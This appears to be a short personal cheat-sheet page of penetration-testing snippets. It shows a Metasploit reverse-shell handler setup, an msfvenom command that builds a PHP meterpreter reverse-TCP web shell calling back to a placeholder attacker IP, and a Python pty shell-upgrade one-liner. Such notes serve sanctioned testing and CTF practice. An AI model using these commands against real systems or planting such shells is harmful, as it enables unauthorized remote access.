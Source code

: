 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


## Metasploit
#### ./ Handlers

```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler: ‘msfconsole -L -r' 
<br/>
<br/>

#### ./ Scripting Payloads
PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```

<br/>

## Python
#### ./ Spawn a terminal

```python
python -c 'import pty;pty.spawn("/bin/bash")';
```
